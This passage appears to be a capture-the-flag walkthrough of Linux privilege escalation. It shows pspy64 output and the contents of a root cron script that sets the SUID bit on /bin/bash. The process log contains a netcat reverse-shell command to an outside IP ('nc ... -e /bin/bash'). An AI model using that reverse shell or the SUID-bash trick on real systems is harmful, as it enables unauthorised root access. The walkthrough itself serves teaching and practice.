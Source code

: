 **OUTPUT**

```bash
<SNIP>
2025/02/17 13:29:00 CMD: UID=0     PID=2      | 
2025/02/17 13:29:00 CMD: UID=0     PID=1      | /sbin/init 
2025/02/17 13:29:01 CMD: UID=0     PID=1090   | /usr/sbin/CRON -f 
2025/02/17 13:29:01 CMD: UID=0     PID=1091   | /usr/sbin/CRON -f 
2025/02/17 13:29:01 CMD: UID=0     PID=1092   | /bin/sh -c /usr/bin/python3.9 /opt/suid.py 
2025/02/17 13:29:02 CMD: UID=0     PID=1093   | /usr/bin/python3.9 /opt/suid.py 
2025/02/17 13:29:02 CMD: UID=0     PID=1094   | /bin/sh -c nc 192.168.0.103 8080 -e /bin/bash 
<SNIP>
```

Let's stop the `pspy64` and read this cron job `/usr/bin/python3.9 /opt/suid.py`

#### Step 2: Exploiting Found File for Privilege Escalation

```bash
david@system:~$ cat /opt/suid.py
```

**OUTPUT**

```python
from os import system
from pathlib import Path

# Reading only first line
try:
    with open('/home/david/cmd.txt', 'r') as f:
        read_only_first_line = f.readline()
    # Write a new file
    with open('/tmp/suid.txt', 'w') as f:
        f.write(f"{read_only_first_line}")
    check = Path('/tmp/suid.txt')
    if check:
        print("File exists")
        try:
            os.system("chmod u+s /bin/bash")
        except NameError:
            print("Done")
    else:
        print("File not exists")
except FileNotFoundError:
    print("File not exists")
```

We have identified a syntax error in the following Python code snippet, which attempts to set the SUID bit on `/bin/bash` to escalate privileges:

```python
from os import system

<SNIP>
os.system("chmod u+s /bin/bash")
<SNIP>
```
